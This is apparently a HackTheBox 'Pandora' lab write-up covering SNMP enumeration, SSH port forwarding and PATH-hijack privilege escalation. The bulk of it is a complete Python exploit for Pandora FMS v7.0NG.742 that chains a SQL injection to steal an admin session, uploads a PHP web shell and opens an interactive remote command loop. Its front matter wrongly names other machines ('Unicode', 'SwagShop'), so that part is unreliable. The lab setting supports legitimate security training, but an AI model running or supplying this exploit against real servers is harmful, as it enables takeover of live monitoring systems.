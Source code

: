 ```yaml
---
title: HackTheBox - Pandora
categories: htb SQLI RCE LPF
excerpt: | 
   Unicode is an easy difficulty Linux machine.

feature_text: |
  ## SwagShop - Easy 
  
feature_image: "https://picsum.photos/2560/600?image=733"
image: "https://picsum.photos/2560/600?image=733"
---
```


### Scanning process
nmap ip:
```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 24:c2:95:a5:c3:0b:3f:f3:17:3c:68:d7:af:2b:53:38 (RSA)
|   256 b1:41:77:99:46:9a:6c:5d:d2:98:2f:c0:32:9a:ce:03 (ECDSA)
|_  256 e7:36:43:3b:a9:47:8a:19:01:58:b2:bc:89:f6:51:08 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Play | Landing
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu May 26 21:44:59 2022 -- 1 IP address (1 host up) scanned in 11.43 seconds
```
This time we have a linux machine with two open ports and no way to attack. But it is important to scan UDP ports too. `nmap -sU --top-ports 100 10.10.11.136`
```
PORT    STATE SERVICE VERSION
161/udp open  snmp    SNMPv1 server; net-snmp SNMPv3 server (public)
| snmp-processes: 
|   1: 
|     Name: systemd
|     Path: /sbin/init
|     Params: maybe-ubiquity
```
This list of snmp-processes contains credentials of daniel. An attacker could use it to stablish an ssh conection.



### Exploit vulnerabilities
Once the attacker is inside the web as admin and following the code, there is one section to upload files. Including a .php with a web shell, you will have a RCE. 
Looking for SUID permissions, there is a suspicious binary `/usr/bin/pandora_backaup` and only matt can run it. 

### Migrating of user
site-availables contains some log file named pandora.log. There are one domain running on a localhost:
```
<VirtualHost localhost:80>
  ServerAdmin admin@panda.htb
  ServerName pandora.panda.htb
  DocumentRoot /var/www/pandora
  AssignUserID matt matt
```
All the attacker needs is to refer his port 80 to the port 80 of daniel. Local Port Forwarding (LPF) `ssh daniel@10.10.11.136 -L 80:127.0.0.1:80`. Taking a look of the localhost web, it is pandora `Pandora FMS v7.0NG.742` 

Get this code on [github](https://raw.githubusercontent.com/shyam0904a/Pandora_v7.0NG.742_exploit_unauthenticated/master/sqlpwn.py). From this code an attacker only needs the SQL Injection to get a PHPSESSID of the admin. Then, reloading the page, he will be admin. 

``` python
#!/usr/bin/python3
import requests
import argparse
import cmd

parser = argparse.ArgumentParser(description="Exploiting Sqlinjection To impersonate Admin")
parser.add_argument("-t","--target", help=" Host Ip for the Exploiting with target Port" ,required=True)
parser.add_argument("-f","--filename", help="Filename for Shell Upload with php extension",default='pwn.php' )

args = parser.parse_args()
host=args.target
file_name=args.filename
base_path=f'http://{host}/pandora_console'

#Exploit Injection
#http://127.0.0.1/pandora_console/include/chart_generator.php?session_id=' union SELECT 1,2,'id_usuario|s:5:"admin";' as data -- SgGO

print(f"URL:  {base_path}")
print("[+] Sending Injection Payload")
r=requests.get(f'http://{host}/pandora_console/include/chart_generator.php?session_id=%27%20union%20SELECT%201,2,%27id_usuario|s:5:%22admin%22;%27%20as%20data%20--%20SgGO')

if r.status_code==200:
    print("[+] Requesting Session")
    Session_Cookie_Admin=r.cookies.get('PHPSESSID')
    print(f'[+] Admin Session Cookie : {Session_Cookie_Admin}')
else :
    print('[+] Error Receiving Admin Cookie , Make sure the url is right or Check the table name using SQLMAP and change the table name in the payload')
##################################################################################################
# Got Cookie now Proceed with Pwning
##################################################################################################
cookies = {
    'PHPSESSID': Session_Cookie_Admin,
}

headers = {
    'Host': host,
    'User-Agent': 'Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0',
    'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8',
    'Accept-Language': 'en-US,en;q=0.5',
    'Accept-Encoding': 'gzip, deflate',
    'Content-Type': 'multipart/form-data; boundary=---------------------------308045185511758964171231871874',
    'Content-Length': '1289',
    'Connection': 'close',
    'Referer': f'http://{host}/pandora_console/index.php?sec=gsetup&sec2=godmode/setup/file_manager',
    'Upgrade-Insecure-Requests': '1',
    'Sec-Fetch-Dest': 'document',
    'Sec-Fetch-Mode': 'navigate',
    'Sec-Fetch-Site': 'same-origin',
    'Sec-Fetch-User': '?1',
}

params = (
    ('sec', 'gsetup'),
    ('sec2', 'godmode/setup/file_manager'),
)

data = f'-----------------------------308045185511758964171231871874\r\nContent-Disposition: form-data; name="file"; filename="{file_name}"\r\nContent-Type: application/x-php\r\n\r\n<?php system($_GET[\'test\']);?>\n\r\n-----------------------------308045185511758964171231871874\r\nContent-Disposition: form-data; name="umask"\r\n\r\n\r\n-----------------------------308045185511758964171231871874\r\nContent-Disposition: form-data; name="decompress_sent"\r\n\r\n1\r\n-----------------------------308045185511758964171231871874\r\nContent-Disposition: form-data; name="go"\r\n\r\nGo\r\n-----------------------------308045185511758964171231871874\r\nContent-Disposition: form-data; name="real_directory"\r\n\r\n/var/www/pandora/pandora_console/images\r\n-----------------------------308045185511758964171231871874\r\nContent-Disposition: form-data; name="directory"\r\n\r\nimages\r\n-----------------------------308045185511758964171231871874\r\nContent-Disposition: form-data; name="hash"\r\n\r\n6427eed956c3b836eb0644629a183a9b\r\n-----------------------------308045185511758964171231871874\r\nContent-Disposition: form-data; name="hash2"\r\n\r\n594175347dddf7a54cc03f6c6d0f04b4\r\n-----------------------------308045185511758964171231871874\r\nContent-Disposition: form-data; name="upload_file_or_zip"\r\n\r\n1\r\n-----------------------------308045185511758964171231871874--\r\n'

print('[+] Sending Payload ')
response = requests.post(f'http://{host}/pandora_console/index.php', headers=headers, params=params, cookies=cookies, data=data, verify=False)
StatusCode=response.status_code
print(f'[+] Respose : {StatusCode}')

##################################################################################################
# Cmdline Class
class commandline_args(cmd.Cmd):
    prompt= "CMD > "
    def default(self,args):
        print(cmd_shell(args))

##################################################################################################
# Drop Interactive Shell
##################################################################################################

def cmd_shell(command):
    shell = requests.get(f'http://{host}/pandora_console/images/{file_name}?test={command}')
    return shell.text

try:
    print('[+] Pwned :)')
    print(f'[+] If you want manual Control : http://{host}/pandora_console/images/{file_name}?test=')
    commandline_args().cmdloop()
except KeyboardInterrupt:
    print('\n[+] Exiting!!!!')
    raise SystemExit
if not  StatusCode == 200:
    print('[+] Failed to Get Shell :(')
```


### Privilege Scalation
Get an interactive console of matt and examine pandora\_backup binary with `ltrace` and see what it is used with a relative path. Modifing the PATH you can do whatever you want with a comand `tar`
For example, file tar: /usr/bin/bash.

You get it! 
